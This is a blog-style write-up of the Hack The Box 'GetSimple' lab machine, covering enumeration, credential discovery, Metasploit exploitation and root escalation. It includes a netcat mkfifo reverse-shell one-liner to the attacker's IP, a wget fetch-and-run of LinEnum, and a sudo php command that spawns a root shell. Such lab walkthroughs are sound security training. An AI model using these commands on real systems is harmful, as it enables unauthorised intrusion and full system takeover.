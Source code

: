 ```yaml
---
title: 'HTB GetSimple Writeup'
date: 2025-06-06
permalink: /posts/2025/06/HTB_GetSimple_Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


Hi and welcome to this writeup of the GetSimple machine of the Knowledge check in the getting started HTB course.


HTB_GetSimple
======

# Enumeration

The site uses GetSimple CMS, which is a flatfile CMS that works fast and it is written in PHP: [https://get-simple.info/](https://get-simple.info/)

It uses Apache HTTP Server 2.4.41

An Nmap scan shows that there is a `/admin/` page present. Going there in the browser shows us a login page. `nmap -sV -sC 10.129.185.160`

Lets enumerate the directory with Gobuster: `gobuster dir -u http://10.129.185.160 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

This shows us the `/admin`, `/backups`, `/data`, `/plugins`, `/sitemap.xml` and `/theme`

Lets dig through these dirs and see what we can find.

The `/data/`cache shows a message `“your_version":"3.3.15","message":"You have an old version - please upgrade”.`

In `/data/other/autorisation.xml` contains a api key: `4f399dc72ff8e619e327800f851e9986`

In `/data/users/admin.xml` is a username and password: `admin@d033e22ae348aeb5660fc2140aec35850c4da997`

And an email: [admin@gettingstarted.com](mailto:admin@gettingstarted.com)

The `/plugins` shows us a php InnovationPlugin and anonymous_data plugin.

The obtained admin password looks hashed. Lets try to find out the hash type: SHA1. Searching Google shows us that this is a hash of the string: admin

Back to the `/admin` page we can login with `admin@admin` and we are in!

Searching trough the admin panel, I see a File upload option.

Searching for “getsimple exploit” gets us a File Upload Vulnerability: [https://www.rapid7.com/db/modules/exploit/unix/webapp/get_simple_cms_upload_exec/](https://www.rapid7.com/db/modules/exploit/unix/webapp/get_simple_cms_upload_exec/)

With a corresponding Metasploit module: `unix/webapp/get_simple_cms_upload_exec`

Let’s try to run this module on our target machine: `use exploit/unix/webapp/get_simple_cms_upload_exec`

<img src='/images/HTB_GetSimple/afbeelding.png'>

I couldn’t get this exploit to work unfortunately.
I next tried the `“multi/http/getsimplecms_unauth_code_exec”` module.

<img src='/images/HTB_GetSimple/afbeelding 1.png'>

And yess this time it worked. I’m in!

The user flag can be found in `/home/mrb3n`.

# Privilege Escalation

Next we have to enumerate the system again to gain root access.

Type “`shell`” to drop into a system command shell to run commands.

Upgrade the tty of the shell with: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, go to the `/tmp` dir on the remote host because of the write permissions.

Now start a python server in your machine where the LinEnmum.sh file is located: `python3 -m http.server 8000`

And get the file from the remote host with: `wget http://10.10.15.40:8000/LinEnum.sh`

Now set the right permissions to the file with: `chmod +x LinEnum.sh`

And run the file: `./LinEnum.sh`

We see a username: `mrb3n`

And a possible sudo pawnage in the `/usr/bin/php` folder!

This could also be discovered with the “`sudo -i`” command.

<img src='/images/HTB_GetSimple/afbeelding 2.png'>

We could add a reverse shell one-liner to the end of the php file like so: `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.40 8443 >/tmp/f' | tee -a php`

Catch the root shell on our machine with a nc listener: `nc -lvnp 8443`

But is this case we can run the following command to get an interactive shell as the root user: `sudo /usr/bin/php -r 'system("/bin/bash");'`

The `root.txt` flag is present in the root directory.